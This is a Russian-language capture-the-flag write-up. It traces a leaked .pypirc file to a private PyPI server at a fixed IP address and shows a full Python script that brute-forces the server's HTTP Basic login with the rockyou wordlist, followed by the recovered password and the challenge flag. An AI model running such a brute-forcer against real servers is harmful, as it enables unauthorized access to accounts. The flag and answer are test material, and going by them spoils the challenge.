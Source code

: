 # OsinterPentesterJob

Аккаунт гитхаба тот же что и в OsinterJob, поэтому нахождение этого аккаунта можно увидеть там. Нам интересен прежде всего файл `.pypirc`, в котором мы обнаруживаем url: http://185.4.73.35:8080/
Заходя на него видим обычный pypi сервер хранения пакетов, но вот проблема, чтобы получить пакет рута нужен пароль (логин прописан в `.pypirc`). Тогда ни найдя ничего другого примемся брутфорсить пароль. Ниже представлен успешный код брутфорса:
```python
import requests as r
import base64

rockyou = open('rockyou.txt', 'rb').read().decode('shift-jis', 'ignore').split('\n')

url = "http://185.4.73.35:8080/packages/simple-backend-app/simple-backend-app-0.0.1.tar.gz"
username = "admin"
password = ""
auth = lambda x, y: base64.b64encode("{}:{}".format(x,y).encode()).decode()

col = 0
for password in rockyou:
    ans = r.get(url, headers={'Authorization': 'Basic {}'.format(auth(username, password))})
    if ans.status_code == 403:
        col += 1
        if col % 100 == 0:
            print(col, 'passwords bruted')
    else:  
        print('Password is',password)
        exit()
```
После чего получаем вывод: `Password is welcome`
Качаем архив и в файле setup.py нас встречает флаг.

Flag: `CYBERTHON{Lea3n_PyT0n_PacKa41ng}`

